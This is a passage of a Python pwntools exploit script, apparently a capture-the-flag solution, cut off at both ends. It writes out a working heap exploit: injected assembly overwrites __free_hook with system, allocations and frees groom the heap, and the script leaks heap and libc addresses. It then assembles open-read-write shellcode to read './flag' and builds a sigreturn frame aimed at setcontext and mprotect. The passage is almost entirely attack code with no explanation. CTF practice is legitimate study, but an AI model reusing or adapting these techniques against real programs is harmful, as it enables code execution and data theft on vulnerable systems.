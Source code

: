 ```Python
            mov qword ptr[rax+8], rbx
        '''.format(bss2_base,libc.sym['__free_hook'])
    )
    code += asm(
        '''
            mov rax, {}
            mov rbx, qword ptr[rax]
            add rbx, {}
            mov qword ptr[rax+0x10], rbx
        '''.format(bss2_base,libc.sym['system'])
    )
    write(6, bss2_base, 0x8)
    alloc('bbbb',0xa0)#4
    alloc('cccc',0xe8)#5
    alloc('d'*0x18,0xe8)#6
    alloc('eeee',0xe8)#7
    
    close(7)
    close(5)

    write(6,bss2_base+8,8)

    alloc('ffff',0xe8)#5
    alloc('gggg',0xe8)#7

    read(3, bss2_base+0x18, 0x18)
    
    code += asm(
        '''
            mov rax, {}
            mov rbx, qword ptr[rax]
            add rbx, {}
            mov qword ptr[rax], rbx
        '''.format(bss2_base+0x28,1584)
    )

    write(1, bss2_base+0x28, 0x8)
    write(1, bss2_base, 0x8)
    read(3, bss2_base+0x18, 0x18)

    read(0, bss2_base+0x100, 0xe8)
    write(7, bss2_base+0x100, 0xe8)
    sla('Send your code:\n', code+'\x00')
    #############
    ru('Emulate i386 code\n')
    leak_heap = uu64(r(8)) + 0x210
    lg('heap',leak_heap)
    leak_libc = uu64(r(8))
    setcontext = leak_libc + libc.sym['setcontext'] + 61
    mprotect = leak_libc + libc.sym['mprotect'] 
    lg('libc',leak_libc)    

    ######
    gadgets =leak_libc + 0x154930
    
    orw = shellcraft.open('./flag',0)
    orw += shellcraft.read('rax','rsp',0x40)
    orw += shellcraft.write(1,'rsp',0x40)

    sigframe = SigreturnFrame()
    sigframe.rdi = (leak_heap) & (~0xfff)
    sigframe.rsp = (leak_heap+0xb0)
    sigframe.rsi = 0x2000
```